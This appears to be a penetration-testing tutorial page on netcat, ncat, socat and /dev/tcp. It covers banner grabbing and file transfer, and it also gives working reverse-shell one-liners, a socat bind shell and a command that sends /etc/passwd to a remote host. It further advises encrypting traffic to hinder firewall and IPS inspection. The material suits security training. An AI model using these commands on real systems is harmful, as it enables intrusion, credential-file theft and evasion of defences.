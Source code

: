 # Utilities

## Netcat

Using netcat is very simple: just enter the IP and then the port. This establishes the connection to the service and, in the example below, displays the FTP banner.

```
$ nc -v www.businesscorp.com.br 21

Connection to www.businesscorp.com.br (37.59.174.225) 21 port [tcp/ftp] succeeded!
220 ProFTPD 1.3.4a Server (FTP) [::ffff:37.59.174.225]
```

If we want to connect to a web service, we need to send a request (GET, HEAD, POST, etc), along with the location we want to access (in the example below we used “/”) and also the HTTP version. Remember that if it's HTTPS, you'll need to send the **host.** header.

```
$ nc -v www.businesscorp.com.br 80
HEAD / HTTP/1.0
```

To open a port on the machine for another host to connect, we use netcat as follows. In this case, the other host simply uses the machine's IP and port to establish the connection.

```
$ nc -nlvp 4444

Listening on 0.0.0.0 4444
```

### File transfer

If you want to transfer files, just use the following method. First we open the port on the machine that wants to receive the file, inserting the “>” indicating that whatever is sent to this connection will be saved in the defined file name.

```
nc -nlvp 1337 > xpto.txt
```

Now all you have to do is connect to this IP and enter the port and the file to be sent

```
nc -v 192.168.0.10 1337 < xpto.txt
```

### Creating a honeypot

If we want to simulate an open door on a machine to serve as a honeypot, we do the following.

```
while true; do sudo nc -nlvp 21 1>> log.txt 2>> erro.txt; done;
```

### Reverse Shell

Netcat is also used when we want to get a reverse shell. We can open a port on our machine and on the target machine send the connection as follows.

```
nc <ip> <port> -e /bin/bash
```

The idea of the `reverse shell` is to bypass the firewall, once we have discovered an outgoing port on the target network, we can take advantage of this by making the target machine connect to ours, thus sending a shell. We can also generate through these sites.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md" %}

{% embed url="https://www.revshells.com/" %}

### Ncat

Ncat is an evolution of netcat, the difference is that it supports encryption and therefore it is not possible to clearly read what is transmitted during communication. We then need to generate a certificate and a key.

```
$ openssl req -x509 -newkey rsa:2048 -keyout my-key.pem -out cert.pem -days 10
```

To open the connection, you will be asked to use the password you entered.

```
$ ncat -nlvp <port> --ssl-key my-key.pem --ssl-cert cert.pem
```

To connect, we need to pass one more parameter.

```
$ ncat -vn <ip> <port> --ssl
```

With encrypted communication, the firewall, IPS or similar, may have more difficulty analyzing the packets that are being transmitted for possible blocking.

## Socat

In socat, we can open a specific port like this (by default it asks for two addresses, so the "dash" is used as an alias to say that it does not have another address).

```
$ socat tcp4-listen:<porta> -
```

To connect, we can use any utility and enter the IP and port that was opened.

Now, using socat to connect, it looks like this.

```
$ socat tcp4:<ip>:<port> -
```

If we want to send /bin/bash

```
$ socat tcp4-listen:<port> EXEC:/bin/bash
```

## /dev/tcp

`/dev/tcp` also has some features in case we don't have access to the other utilities. When we use it, we open a tcp socket with a specific IP address and port. We can send a message or a file.

```
$ cat /etc/passwd > /dev/tcp/10.10.10.5/1337
```

If we want to send a bash, we do it as follows (the -i parameter means interactive).

```
$ bash -i > /dev/tcp/10.10.10.5/1337 0>&1 2>&1
```

We can also check if a port is open.

```
$ >/dev/tcp/www.businesscorp.com.br/21 && echo "port open"
port open
```

Remember that 0>&1 means that all stdin will be directed to stdout and 2>&1 means that all errors will be directed to stdout.

<figure><img src="../.gitbook/assets/utitilies.png" alt=""><figcaption></figcaption></figure>

STDIN - 0\
STDOUT - 1\
STDERR - 2
